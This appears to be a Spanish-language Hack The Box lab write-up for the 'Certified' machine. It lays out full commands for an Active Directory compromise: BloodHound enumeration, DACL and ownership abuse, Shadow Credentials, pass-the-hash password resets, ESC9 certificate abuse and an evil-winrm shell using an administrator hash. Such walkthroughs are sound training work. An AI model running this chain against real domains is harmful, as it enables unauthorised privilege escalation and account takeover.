 ```yaml
---
title: "Certified"
date: "2025-03-16T00:04:43-05:00"
type: "maquinas"
draft: false
tags: ["BloodHund", "ESC9", "shadow credentials", "impacket", "netexec"]
---
```


## Descripción: 
Maquina en la cual con las credenciales que nos proporcionan hacemos uso de bloodhund para poder cambiar de usuario usando la tecnica Shadow Credentials, para luego mediate de una herramienta encontrar la vulnerabilidad ESC9 y poder elevar privilegios.

# Enumeración

```jsx
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.41 -oG allPorts
```

<a href="https://imgur.com/At3Gt4r"><img src="https://i.imgur.com/At3Gt4r.png" title="source: imgur.com" /></a>

```jsx
nmap -sCV -p53,88,135,389,445,464,593,636,3268,3269,5985,9389,49666,49668,49673,49674,49681,49714,49719,49770 10.10.11.41 -oN target
```

<a href="https://imgur.com/s61BBao"><img src="https://i.imgur.com/s61BBao.png" title="source: imgur.com" /></a>

Vamos a usar las credenciales que nos provee hack the box judith.mader / judith09, vamos a listar tanto servicios compartidos como usuarios con los dos siguientes comandos.

```jsx
xc smb 10.10.11.41 -d certified.htb -u judith.mader -p judith09 --shares
```

```jsx
nxc smb 10.10.11.41 -u judith.mader -p 'judith09' --users
```

<a href="https://imgur.com/t7YGMxl"><img src="https://i.imgur.com/t7YGMxl.png" title="source: imgur.com" /></a>

Vamos a listar las configuraciones y los protocolos que se le aplican a la maquina con el comando:

```jsx
nxc smb 10.10.11.41 -u judith.mader -p 'judith09' --pass-pol
```

<a href="https://imgur.com/cMpoOaB"><img src="https://i.imgur.com/cMpoOaB.png" title="source: imgur.com" /></a>

La enumeración de la política de contraseñas muestra que la longitud mínima de la contraseña es de 7 caracteres, la complejidad de la contraseña está desactivada (esto significa que los usuarios pueden elegir contraseñas cortas y débiles) y, lo más importante, la opción Account Lockout Threshold, lo que significa que podemos forzar la cuenta sin temer que se quede bloqueada. 

Ya con esto queremos saber que grupos y usuarios hay creados por lo que vamos a usar ldapdomaindump para que nos muestre esto.

```jsx
ldapdomaindump -u 'certified.htb\judith.mader' -p 'judith09' 10.10.11.41
```

<a href="https://imgur.com/qqKXBJ9"><img src="https://i.imgur.com/qqKXBJ9.png" title="source: imgur.com" /></a>

# Bloodhund

Vamos a usar una herramienta llamada bloodhund que nos va a ayudar encontrar vulnerabilidades para saltar de un usuario a otro y hacer finalmente el escalamiento de privilegios. Para instalarlo y configurarlo seguir este paso a paso https://www.kali.org/tools/bloodhound/.

```jsx
bloodhound-python -u 'judith.mader' -p 'judith09' -ns 10.10.11.41 -d certified.htb -c all
```

Despues de subir los archivos que nos genero el comando y buscar al usuario al cual tenemos acceso podemos ver que en Outbound Object Control tenemos la opción de saltar a otro usuario en este caso “management_scv**@**certified.htb**”.** 

<a href="https://imgur.com/3wMqZ0m"><img src="https://i.imgur.com/3wMqZ0m.png" title="source: imgur.com" /></a>

<a href="https://imgur.com/ZpnCq4S"><img src="https://i.imgur.com/ZpnCq4S.png" title="source: imgur.com" /></a>

Ahora lo que vamos a hacer es seguir lo que nos dice bloodhund, descargamos los siguientes scripts:

- https://github.com/fortra/impacket/blob/master/examples/dacledit.py
- https://github.com/fortra/impacket/blob/master/examples/owneredit.py
- https://github.com/ShutdownRepo/pywhisker/blob/main/pywhisker/pywhisker.py

```jsx
python3 owneredit.py -action write -new-owner judith.mader -target management certified.htb/judith.mader:judith09
python3 dacledit.py -action 'write' -rights 'WriteMembers' -principal judith.mader -target Management certified.htb/judith.mader:judith09
net rpc group addmem management management -U certified.htb/judith.mader%judith09 -S certified.htb
pth-net rpc group addmem management judith.mader -U certified.htb/judith.mader%37937096CA6E6E2209752A3293831D17:8EC62AC86259004C121A7DF4243A7A80 -S certified.htb
```

Despues de esto lo que hemos hecho es agregar a judith al grupo management y ahora podemos modificar ls atributos de management_svc para verificar que todo se ha hecho ejecutamos el comando a continuacion.

```jsx
net rpc group members management -U certified.htb/judith.mader%judith09 -S certified.htb
```

<a href="https://imgur.com/tYORAxa"><img src="https://i.imgur.com/tYORAxa.png" title="source: imgur.com" /></a>

Ahora para aplicar el ataque de shadow credentials vamos a usar una herramienta llamada certipy la cual vamos a instalar en un entorno virtual de python.

```python
python3 -m venv env
source env/bin/activate
pip3 install certipy-ad
```

Si bien podriamos mandar el comando de certipy solamente es my probable que tengamos un error debido a que nuestra hora es diferente al de la maquina por lo que tambien vamos a usar faketime de la siguiente manera:

```python
faketime "$(ntpdate -q certified.htb | cut -d ' ' -f 1,2)" certipy shadow auto -username judith.mader@certified.htb -p judith09 -account management_svc
```

<a href="https://imgur.com/5voHu48"><img src="https://i.imgur.com/5voHu48.png" title="source: imgur.com" /></a>

Ahora desde bloodhund podemos ver que podemos cambiar hacia el usuario ca_operator con un GenericAll por lo que vamos a seguir lo que nos dice.

<a href="https://imgur.com/rLTmwqO"><img src="https://i.imgur.com/rLTmwqO.png" title="source: imgur.com" /></a>

```python
pth-net rpc password ca_operator "nueva contraseña" -U certified.htb/management_svc%ffffffffffffffffffffffffffffffff:a091c1832bcdd4677c28b5a6a1295584 -S certified.htb
```

Con esto le hemos cambiado la contraseña a el usuario ca_operator ahora vamos a tratar de encontrar alguna otra vulnerabilidad usando certipy de nuevo.

```python
certipy find -dc-ip 10.10.11.41 -u ca_operator -p "nueva contraseña"
```

Abriendo el txt que nos deja este comando en la parte de certipy templates podemos ver una vulnerabilidad ESC9

<a href="https://imgur.com/n6xKWXY"><img src="https://i.imgur.com/n6xKWXY.png" title="source: imgur.com" /></a>

Vamo a irnos a esta pagina para que nos de el hash de la contraseña que le asignamos https://www.browserling.com/tools/ntlm-hash y luego vamos a ejecutar los siguientes comandos para explotar el ESC9

```python
certipy account update -username management_svc@certified.htb -hashes "hash management_svc" -user ca_operator -upn administrator
certipy req -username ca_operator@certified.htb -hashes "hash nueva contraseña" -ca certified-DC01-CA -template CertifiedAuthentication -debug
```

<a href="https://imgur.com/3NheBlO"><img src="https://i.imgur.com/3NheBlO.png" title="source: imgur.com" /></a>

Revertimos lo que hemos hecho con el usuario ca_operator para que cuando busqeumos el hash de administrator lo halle:

```python
certipy account update -username management_svc@certified.htb -hashes "hash management_svc" -user ca_operator -upn ca_operator@certified.htb
```

Y finalmente buscamos el hash del administrator con el siguiente comando teniendo en cuenta los problemas de hora que puede tener la maquina.

```python
certipy auth -pfx administrator.pfx -domain certified.htb
```

<a href="https://imgur.com/0UNBYmi"><img src="https://i.imgur.com/0UNBYmi.png" title="source: imgur.com" /></a>

Finalmente con el hash del administrator vamos a conseguir una shell y ya podremos encontrar las dos flags:

```python
evil-winrm -i 10.10.11.41 -u Administrator -H 0d5b49608bbce1751f708748f67e2d34
```
